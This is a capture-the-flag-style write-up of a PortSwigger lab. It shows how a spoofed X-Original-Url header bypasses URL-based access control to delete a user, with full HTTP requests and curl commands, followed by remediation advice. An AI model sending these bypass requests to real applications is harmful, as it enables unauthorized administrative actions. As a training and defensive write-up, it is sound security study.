






# **Lab Write-Up: URL-based Access Control Can Be Circumvented**

**Author:** Muhil M  
**Category:** Access Control → Broken Access Control (IDOR-class behavior)  
**Lab Difficulty:** Practitioner  
**Date:** 16/11/2025  
**Status:** Solved

---

## **Scope**

- **Target Lab:** Web Security Academy (PortSwigger)
- **Allowed Actions:** All exploitation techniques (training environment)
- **Tools Used:** Browser, Burp Suite Community (Proxy + Repeater), curl
- **Objective:** Gain access to admin-only functionality and delete the user **carlos** without admin privileges.

---

## **Executive Summary**

This lab demonstrated how relying on the requested URL—or client-supplied routing headers—to make access control decisions can be dangerous. While logged in as a regular user, I discovered that adding an `X-Original-Url` header allowed me to access internal admin endpoints normally restricted by the application. By crafting a modified request in Burp Repeater, I triggered the admin delete endpoint and successfully removed the user **carlos**, solving the lab.

The vulnerability aligns with **OWASP A01: Broken Access Control** and reflects **CWE-284**, where authorization checks are either missing or incorrectly applied.

---

## **OWASP & CWE Mapping**

- **OWASP Top 10:** A01 – Broken Access Control
- **CWE:** CWE-284 (Improper Access Control), related to CWE-639 (Authorization Bypass Through User-Controlled Key)
- **Impact:** Unauthorized execution of admin-only operations (e.g., deleting user accounts)

---
## **Goal**

Delete **carlos** even though my user session does **not** have admin privileges.

---

## **Enumeration & Understanding the App**

I started by exploring the “Users” page and attempted to access the administrative panel:

```
/admin
```

Accessing it directly resulted in an “Access denied” message.



This confirmed that admin functionality was blocked, and a bypass was needed.

---

## **Procedure**

### **Step 1 — Discovering the Admin Delete Endpoint**

While analyzing the structure of the app, I identified the admin delete URL:

```
/admin/delete?username=carlos
```

This became my target action to trigger as a non-admin user.



---

### **Step 2 — Confirm Direct Access is Blocked**

Navigating directly to the delete URL:

```
/admin/delete?username=carlos
```

resulted in a denied request:



Direct access was properly restricted.

---

### **Step 3 — Intercept and Prepare a Benign Request**

I intercepted a normal request to `/` using Burp Proxy and sent it to Repeater. This served as my base request:

```http
GET / HTTP/2
Host: 0ac2005f036407978342103800d5000a.web-security-academy.net
Cookie: session=DERuR3gnwL0QkZjBrus2mZse3VMQB2AP
User-Agent: Mozilla/5.0 (...)
Accept: text/html,application/xhtml+xml
```



---

### **Step 4 — Add the Bypass Header**

The server uses the `X-Original-Url` header internally for routing. Critically, it trusts this value even when sent by the client.

I added:

```
X-Original-Url: /admin/delete?username=carlos
```

Final malicious request:

```http
GET /?username=carlos HTTP/2
Host: 0ac2005f036407978342103800d5000a.web-security-academy.net
Cookie: session=DERuR3gnwL0QkZjBrus2mZse3VMQB2AP
X-Original-Url: /admin/delete?username=carlos
User-Agent: Mozilla/5.0 (...)
Accept: text/html,application/xhtml+xml
```



Server response:

```
HTTP/2 302 Found
Location: /admin
```

This indicates the delete action executed successfully.

---

### **Step 5 — Confirm Deletion**

Refreshing the Users page confirmed that **carlos** was removed.

**Before deletion:**  


**After deletion:**  


The lab displayed the success banner:

> “Congratulations, you solved the lab!”

---

## **Raw HTTP Evidence**

### **Blocked Direct Access**

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ac2005f036407978342103800d5000a.web-security-academy.net

HTTP/2 200 OK
"Access denied"
```

---

### **Successful Bypass Request**

```http
GET /?username=carlos HTTP/2
Host: 0ac2005f036407978342103800d5000a.web-security-academy.net
Cookie: session=DERuR3gnwL0QkZjBrus2mZse3VMQB2AP
X-Original-Url: /admin/delete?username=carlos

HTTP/2 302 Found
Location: /admin
```

---

## **Why the Vulnerability Exists**

The application performs authorization based on **URL structure**, not on actual user privileges. Because the server trusts `X-Original-Url`—a header typically added by a trusted reverse proxy—the backend interprets requests according to the header and allows admin actions to proceed without verifying permissions.

### **Root Causes**

- Missing authorization check on destructive endpoints
- Over-trusting client-controlled routing headers
- Insecure design: access control tied to URL paths instead of roles

This is classic Broken Access Control.

---

## **Remediation Recommendations**

### **1. Implement Proper Server-Side Authorization**

Every sensitive admin endpoint should enforce:

```pseudo
if not user.is_admin():
    return 403
```

### **2. Reject Client-Supplied Routing Headers**

Only trusted reverse proxies should set headers like `X-Original-Url`.

### **3. Use Role-Based Access Control (RBAC)**

Access should depend on user privileges, not URL patterns.

### **4. Strip Spoofed or Unknown Headers**

Remove routing-related headers at the edge (NGINX/Apache/CDN).

### **5. Log + Monitor Admin Actions**

Generate alerts for unauthorized attempts.

---

## **Lessons Learned**

This lab reinforced a critical security principle: **URL-based access control is not real access control**. Treating URLs or headers as proof of authorization leads to severe escalation vulnerabilities. Proper authorization must be enforced at the application logic level, not inferred from the request path.

---

# **Alternate Exploitation Method — POST + `X-Original-URL`**

I also explored whether the server behaved differently across HTTP methods. A POST request combined with `X-Original-URL` bypassed the restrictions entirely.

### **1. Access Admin Panel via POST**

```bash
curl -s -X POST \
  -H "X-Original-URL: /admin" \
  "https://<LAB-HOST>/"
```

### **2. Delete carlos via POST**

```bash
curl -s -X POST \
  -H "X-Original-URL: /admin/delete" \
  "https://<LAB-HOST>/?username=carlos"
```

### **3. Verify Success**

```bash
curl -s -X POST \
  -H "X-Original-URL: /admin" \
  "https://<LAB-HOST>/" | grep -i "solved\|deleted"
```

### **Why This Works**

- The front-end likely filters **GET** requests but ignores POST.
- The backend router still routes based on the trusted header.
- Using POST avoids the initial block, while the backend executes the admin action.

This alternate method shows how HTTP verb variation can reveal hidden bypass paths.


